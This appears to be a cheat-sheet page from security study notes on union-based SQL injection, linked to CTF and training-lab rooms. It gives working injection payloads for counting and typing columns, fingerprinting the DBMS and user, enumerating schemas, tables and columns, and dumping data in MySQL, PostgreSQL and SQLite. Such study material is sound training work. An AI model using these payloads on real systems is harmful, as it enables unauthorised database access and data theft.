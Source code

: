 # Union-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![marketplace](../../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)
[![sql_injection_string](../../../../../_badges/rootme/web_server/sql_injection_string.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String)
[![sql_injection_numeric](../../../../../_badges/rootme/web_server/sql_injection_numeric.svg)](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

<div class="row row-cols-lg-2"><div>

Union-based refer to using the UNION clause in the injected SQL to concatenate illegally fetched records to the usual results.

For instance, given a request returning the list of products, we could append to it the list of users and their passwords.

🙌 When injecting an union payloads, you usually only want to see the union results. Simply use a search query with no results.
</div><div>

⚠️ It can only be achieved both queries have the **same number of attributes+type** in the SELECT <small>(as per the property of the UNION clause)</small>.

```sql!
SELECT 1 UNION SELECT 1;          -- ok
SELECT 1, 2 UNION SELECT 1;       -- not ok
SELECT 1, 2 UNION SELECT 1, "2";  -- not ok (on a table)
SELECT 1, 2 UNION SELECT 1, NULL; -- ok
```
</div></div>

<hr class="sep-both">

## Manual Union-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)

<div class="row row-cols-lg-2"><div>

#### Number of columns selected

The first step is to find how many columns there are in the SELECT. There are two popular ways, using `UNION` or `ORDER BY`.

Even if SQL errors are not displayed, if the results is "unexpected" <small>(ex: no results)</small>, we know that the request failed.

<details class="details-n">
<summary>Method 1: <code>UNION SELECT</code></summary>

```sql!
UNION SELECT NULL -- fail
UNION SELECT NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL -- fail
UNION SELECT NULL, NULL, NULL, NULL -- OK
```
</details>

<details class="details-n">
<summary>Method 2: <code>ORDER BY</code></summary>

`ORDER BY` can take a number representing the $nth$ argument in the select. If you use an invalid $n$, then the request fails.

```sql!
ORDER BY 1 -- fail
ORDER BY 2 -- fail
ORDER BY 3 -- fail
ORDER BY 4 -- OK
```
</details>

In the example, we have 4 parameters.

<br>

#### Find the type of each column

The UNION will fails if a column in the first select has a different type in the second select. You should check the type of each column, by using `UNION SELECT` with value others than NULL.

```sql!
UNION SELECT 1, NULL, NULL, NULL -- KO
UNION SELECT "1", NULL, NULL, NULL -- OK
UNION SELECT "1", "1", NULL, NULL -- OK
...
```

<br>

#### Find which columns are displayed

Simply replace every `NULL` with a value, such as increasing numbers. If a value is not displayed, then skip it and work on other attributes.
</div><div>

#### Find the DBMS used

The second objective is to find the DBMS, and its version, just to ensure that any following query is valid in the DBMS language.

```sql!
UNION SELECT @@version, NULL, NULL, NULL
UNION SELECT sqlite_version(), NULL, NULL, NULL
UNION SELECT VERSION(), NULL, NULL, NULL
UNION SELECT (SELECT banner FROM v$version), NULL, NULL, NULL
-- see also: DMBS-specific functions, etc.
...
```

👉 You can fetch the user too with `user()` or enumerate users:

```sql!
UNION SELECT group_concat(user), NULL, NULL, NULL from mysql.user
```

<br>

#### Extract data

To extract data, you need to find the **database**, the **table**, and the **columns**. It's an extensive operation.

<details class="details-n">
<summary>MariaDB/MySQL/PostgreSQL</summary>

```sql!
-- list databases, mostly unused as we use the current database
UNION SELECT SCHEMA_NAME, NULL, NULL, NULL FROM INFORMATION_SCHEMA.SCHEMATA
-- current database
UNION SELECT database(), NULL, NULL, NULL
-- table given 'database'
UNION SELECT group_concat(table_name), NULL, NULL, NULL FROM information_schema.tables WHERE TABLE_SCHEMA='database_name'
-- columns given 'table' and 'database'
UNION SELECT group_concat(column_name), NULL, NULL, NULL FROM information_schema.columns WHERE TABLE_SCHEMA='database_name' AND TABLE_NAME='table_name'
-- dump
UNION SELECT group_concat(col1,":",col2 SEPARATOR '<br>'), NULL, NULL, NULL FROM database_name.table_name
```
</details>

<details class="details-n">
<summary>SQLite</summary>

```sql!
-- table
UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
-- columns given table
UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='<a table>'
-- dump
UNION SELECT group_concat(col1 || ":" || col2, '<br>'), NULL, NULL, NULL FROM table_name
```
</details>
</div></div>